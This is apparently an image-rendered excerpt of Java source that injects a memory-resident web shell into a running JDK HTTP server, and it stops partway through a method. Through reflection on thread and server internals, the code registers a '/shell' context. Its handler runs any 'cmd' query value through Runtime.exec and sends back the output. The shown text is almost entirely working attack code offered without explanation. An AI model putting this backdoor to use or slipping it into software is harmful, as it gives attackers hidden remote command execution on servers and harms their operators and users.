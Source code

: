 ```java
        try {
            Field groupField = o.getClass().getDeclaredField("group");
            groupField.setAccessible(true);
            Object group = groupField.get(o);

            Field threadsField = group.getClass().getDeclaredField("threads");
            threadsField.setAccessible(true);
            Object t = threadsField.get(group);

            Thread[] threads = (Thread[]) t;
            for (Thread thread : threads){
                if(thread.getName().equals("Thread-2")){
                    Field targetField = thread.getClass().getDeclaredField("target");
                    targetField.setAccessible(true);
                    Object target = targetField.get(thread);

                    Field thisField = target.getClass().getDeclaredField("this$0");
                    thisField.setAccessible(true);
                    Object this$0 = thisField.get(target);

                    Method createContext = Class.forName("sun.net.httpserver.ServerImpl").getDeclaredMethod("createContext", String.class, HttpHandler.class);
                    createContext.setAccessible(true);
                    createContext.invoke(this$0,"/shell",new InjectHandle());

//                    Field contextsField = this$0.getClass().getDeclaredField("contexts");
//                    contextsField.setAccessible(true);
//                    Object contexts = contextsField.get(this$0);
//
//                    Field listField = contexts.getClass().getDeclaredField("list");
//                    listField.setAccessible(true);
//                    Object lists = listField.get(contexts);
//                    java.util.LinkedList linkedList = (java.util.LinkedList) lists;
//
//                    Object list = linkedList.get(0);
//
//                    Field handlerField = list.getClass().getDeclaredField("handler");
//                    handlerField.setAccessible(true);
//                    handlerField.set(list,new InjectHandle());
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public void handle(HttpExchange t) throws IOException {
        String response = "MemoryShell";
        String query = t.getRequestURI().getQuery();
        String[] var3 = query.split("=");
        ByteArrayOutputStream output = null;
        if (var3[0].equals("cmd")){
            InputStream inputStream = Runtime.getRuntime().exec(var3[1]).getInputStream();
            output = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int n = 0;
            while (-1 != (n = inputStream.read(buffer))) {
                output.write(buffer, 0, n);
            }
        }
        response+=("\n"+new String(output.toByteArray()));
        t.sendResponseHeaders(200, (long)response.length());
        OutputStream os = t.getResponseBody();
```